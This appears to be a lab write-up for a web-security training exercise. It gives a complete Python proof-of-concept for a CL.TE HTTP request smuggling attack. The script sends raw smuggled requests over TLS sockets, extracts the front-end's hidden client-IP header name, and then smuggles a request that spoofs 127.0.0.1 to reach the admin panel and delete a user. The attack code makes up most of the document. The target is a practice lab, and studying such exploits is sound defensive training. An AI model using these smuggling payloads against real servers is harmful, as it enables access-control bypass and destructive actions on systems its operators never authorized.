

# Lab: Exploiting HTTP request smuggling to reveal front-end request rewriting

## Description
```
This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

There's an admin panel at /admin, but it's only accessible to people with the IP address 127.0.0.1. The front-end server adds an HTTP header to incoming requests containing their IP address. It's similar to the X-Forwarded-For header but has a different name.

To solve the lab, smuggle a request to the back-end server that reveals the header that is added by the front-end server. Then smuggle a request to the back-end server that includes the added header, accesses the admin panel, and deletes the user carlos.
```

## PoC
```py
import requests
from bs4 import BeautifulSoup
import socket
import ssl

session = requests.session()

burp0_url = "https://❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚.web-security-academy.net:443/"
burp0_headers = {"Pragma": "no-cache", "Cache-Control": "no-cache", "Sec-Ch-Ua": "\"Chromium\";v=\"131\", \"Not_A Brand\";v=\"24\"", "Sec-Ch-Ua-Mobile": "?0", "Sec-Ch-Ua-Platform": "\"Windows\"", "Accept-Language": "ko-KR,ko;q=0.9", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Sec-Fetch-Site": "none", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Accept-Encoding": "gzip, deflate, br", "Priority": "u=0, i"}
response = requests.get(burp0_url, headers=burp0_headers)
soup = BeautifulSoup(response.text, 'html.parser')
title = soup.title.string
print(f"title : {title}")

attack_payload ="""
POST / HTTP/1.1
Host: ❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 107
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 159

search=foobar
"""
print("## first attack payload ##")
print(attack_payload, end="")

def send_request(host, port, request):
    context = ssl.create_default_context()
    context.check_hostname = False
    context.verify_mode = ssl.CERT_NONE

    with socket.create_connection((host, port)) as sock:
        with context.wrap_socket(sock, server_hostname=host) as secure_sock:
            secure_sock.sendall(request.encode())
            response = secure_sock.recv(4096)
            return response

host = "❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚.web-security-academy.net"
port = 443

request = (
    "POST / HTTP/1.1\r\n"
    f"Host: {host}\r\n"
    "Content-Type: application/x-www-form-urlencoded\r\n"
    "Content-Length: 107\r\n"
    "Transfer-Encoding: chunked\r\n"
    "\r\n"
    "0\r\n"
    "\r\n"
    "POST / HTTP/1.1\r\n"
    "Content-Type: application/x-www-form-urlencoded\r\n"
    "Content-Length: 159\r\n"
    "\r\n"
    "search=foobar"
)

response = send_request(host, port, request)
status_line = response.decode('utf-8', errors='ignore').split('\r\n')[0]
status_code = status_line.split()[1]
print(f"response status code: {status_code}")

request = (
    "POST / HTTP/1.1\r\n"
    f"Host: {host}\r\n"
    "Content-Type: application/x-www-form-urlencoded\r\n"
    "Content-Length: 7\r\n"
    "\r\n"
    "foo=bar"
)

response = send_request(host, port, request)
status_line = response.decode('utf-8', errors='ignore').split('\r\n')[0]
status_code = status_line.split()[1]
print(f"response status code: {status_code}")
response_text = response.decode('utf-8', errors='ignore')

import re

# response_text는 실제 응답 데이터를 포함하고 있어야 합니다
pattern = r"X-[A-Za-z0-9]+-Ip: [^\r\n]+"
headers = re.findall(pattern, response_text)
# 추출된 헤더 출력
for header in headers:
    name_of_ip = header

name_of_ip = name_of_ip.split(":")[0]
print(f"name_of_ip : {name_of_ip}")

# request to reset
request = (
    "POST / HTTP/1.1\r\n"
    f"Host: {host}\r\n"
    "Content-Type: application/x-www-form-urlencoded\r\n"
    "Content-Length: 7\r\n"
    "\r\n"
    "foo=bar"
)

response = send_request(host, port, request)
status_line = response.decode('utf-8', errors='ignore').split('\r\n')[0]
status_code = status_line.split()[1]
print(f"response status code: {status_code}")

attack_payload =f"""
POST / HTTP/1.1
Host: ❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 145
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
{name_of_ip}: 127.0.0.1

x=
"""

print("## second attack payload ##")
print(attack_payload, end="")

request = (
    "POST / HTTP/1.1\r\n"
    f"Host: {host}\r\n"
    "Content-Type: application/x-www-form-urlencoded\r\n"
    "Content-Length: 145\r\n"
    "Transfer-Encoding: chunked\r\n"
    "\r\n"
    "0\r\n"
    "\r\n"
    "GET /admin/delete?username=carlos HTTP/1.1\r\n"
    "Content-Type: application/x-www-form-urlencoded\r\n"
    "Content-Length: 6\r\n"
    f"{name_of_ip}: 127.0.0.1\r\n"
    "\r\n"
    "x="
)

response = send_request(host, port, request)
response_text = response.decode('utf-8', errors='ignore')
status_line = response.decode('utf-8', errors='ignore').split('\r\n')[0]
status_code = status_line.split()[1]
print(f"response status code: {status_code}")

request = (
    "POST / HTTP/1.1\r\n"
    f"Host: {host}\r\n"
    "Content-Type: application/x-www-form-urlencoded\r\n"
    "Content-Length: 7\r\n"
    "\r\n"
    "foo=bar"
)

response = send_request(host, port, request)
status_line = response.decode('utf-8', errors='ignore').split('\r\n')[0]
status_code = status_line.split()[1]
print(f"response status code: {status_code}")

burp0_url = "https://❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚.web-security-academy.net:443/"
burp0_headers = {"Content-Type": "application/x-www-form-urlencoded"}
response = requests.get(burp0_url, headers=burp0_headers)

soup = BeautifulSoup(response.text, 'html.parser')
status_p = soup.select_one('div.widgetcontainer-lab-status > p')
status_text = status_p.text if status_p else "Status not found"
print(f"Lab : {status_text}")
```

## Result
